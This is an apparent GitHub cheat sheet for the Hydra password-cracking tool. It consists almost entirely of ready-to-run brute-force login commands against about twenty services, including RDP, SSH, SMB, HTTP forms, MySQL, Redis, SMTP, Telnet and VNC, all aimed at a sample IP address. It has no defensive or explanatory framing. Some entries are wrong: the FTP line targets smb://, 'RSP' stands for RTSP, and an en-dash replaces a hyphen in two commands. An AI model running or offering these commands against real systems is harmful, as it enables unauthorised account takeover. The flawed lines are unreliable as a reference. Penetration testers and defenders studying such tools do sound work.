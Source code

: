 

# Hydra Cheat Sheet GUI

##### GUI
`xhydra`

##### RDP
`hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V`

##### SSH
`hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V`

##### SMB
`hydra -l Administrator -P passwords.txt -f smb://10.0.2.5 -V`

##### FTP
`hydra -l root -P passwords.txt -f smb://10.0.2.5 -V`

##### HTTP Basic Auth
`hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V`

##### HTTP Post
`hydra -L users.txt -P password.txt 10.0.2.5 http-post-form "/path/index.php:name=NAME&password=PASS&enter=Sign+in:Login
name or password is incorrect" -V`

##### IMAP
`hydra -l root -P passwords.txt -f imap://10.0.2.5 -V`

##### MySQL
`hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V`

##### POP
`hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V`

##### Redis
`hydra –P password.txt redis://10.0.2.5 -V`

##### Rexec
`hydra -l root -P password.txt rexec://10.0.2.5 -V`

##### Rlogin
`hydra -l root -P password.txt rlogin://10.0.2.5 -V`

##### RSH
`hydra -L username.txt rsh://10.0.2.5 -V`

##### RSP
`hydra -l root -P passwords.txt <IP> rtsp`

##### SMTP
`hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V`
`hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V`
`Port 587 for SMTP with SSL`

##### Telnet
`hydra -l root -P passwords.txt [-t 32] <IP> telnet`

##### VNC
`hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT> <IP> vnc`

